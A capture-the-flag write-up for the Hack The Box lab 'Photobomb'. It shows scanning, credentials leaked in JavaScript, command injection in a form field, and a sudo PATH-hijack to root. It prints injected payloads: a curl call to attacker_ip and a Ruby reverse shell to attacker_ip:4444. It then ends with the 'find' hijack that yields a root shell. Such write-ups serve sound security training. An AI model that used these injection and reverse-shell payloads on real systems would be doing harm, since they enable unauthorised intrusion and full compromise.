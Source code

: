 ## Enumeration

```shell
$ sudo nmap -T4 10.10.11.182
[sudo] password for parallels: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-15 09:42 PST
Nmap scan report for 10.10.11.182
Host is up (0.50s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.79 seconds
```

```
$ sudo nmap -T4 10.10.11.182 -p22,80 -A
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-15 09:48 PST
Nmap scan report for 10.10.11.182
Host is up (0.085s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   86.58 ms 10.10.14.1
2   86.68 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.68 seconds
```

- Add `10.10.11.182 photobomb.htb` to our `/etc/hosts`

- After browsing the `http://photobomb.htb` via ZAP, there are some interesting pages and files.


```html
GET http://photobomb.htb/robots.txt HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

<!DOCTYPE html>
<html>
<head>
  <style type="text/css">
  body { text-align:center;font-family:helvetica,arial;font-size:22px;
    color:#888;margin:20px}
  #c {margin:0 auto;width:500px;text-align:left}
  </style>
</head>
<body>
  <h2>Sinatra doesn’t know this ditty.</h2>
  <img src='http://127.0.0.1:4567/__sinatra__/404.png'>
  <div id="c">
    Try this:
    <pre>get &#x27;&#x2F;.robots.txt&#x27; do
  &quot;Hello World&quot;
end
</pre>
  </div>
</body>
</html>
```

```js
// GET http://photobomb.htb/photobomb.js HTTP/1.1
// Host: photobomb.htb
// User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
// Accept: */*
// Accept-Language: en-US,en;q=0.5
// Connection: keep-alive
// Sec-Fetch-Dest: empty
// Sec-Fetch-Mode: cors
// Sec-Fetch-Site: same-origin

function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

By the `/photobomb.js`, we can access `/printer` page by credential `pH0t0:b0Mb!`. Inside it, there is a POST API.

## Foothold
```
POST http://photobomb.htb/printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: keep-alive
Referer: https://photobomb.htb/printer
Cookie: isPhotoBombTechSupport=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png&dimensions=600x400
```

It seems like it could be vulnerable to command injection.
After trying each parameter, `filetype` seems like a possible blind injection.
Run `python -m http.server` and change the request body as `photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;curl+http://attacker_ip:8000/hash&dimensions=600x400`.

```
POST http://photobomb.htb/printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: keep-alive
Referer: https://photobomb.htb/printer
Cookie: isPhotoBombTechSupport=true
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=png;ruby+-rsocket+-e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("attacker_ip",4444))'&dimensions=600x400
```

```
$ python -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.182 - - [15/Dec/2022 10:19:43] "GET /hash HTTP/1.1" 200 -
```

It confirms that the command injection is successful. Thus, we can initialize a reverse shell. 
We know the server use ruby after searching `Sinatra` server on google.

```shell-session
$ pwncat-cs -lp 4444   
[10:24:45] Welcome to pwncat 🐈! 
[10:32:30] received connection from 10.10.11.182:50984 
[10:32:33] 0.0.0.0:4444: upgrading from /usr/bin/dash to /usr/bin/bash
[10:32:34] 10.10.11.182:50984: registered new host w/ db
(local) pwncat$
(remote) wizard@photobomb:/home/wizard/photobomb$ ls
log  photobomb.sh  public  resized_images  server.rb  source_images
```



## Privilege

```
(remote) wizard@photobomb:/home/wizard$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

(remote) wizard@photobomb:/home/wizard$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

In `sudo -l`, we get a script `/opt/cleanup.sh` with `SETENV` argument. 
After checking [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation), this directive allows the user to set an environment variable while executing something.
Fortunately, in the `/opt/cleanup.sh`, `find` is not referenced from the absolute path. 

```
(remote) wizard@photobomb:/home/wizard$ cd /tmp
(remote) wizard@photobomb:/tmp$ echo bash > find
(remote) wizard@photobomb:/tmp$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# cd /root
root@photobomb:~# ls
root.txt
```
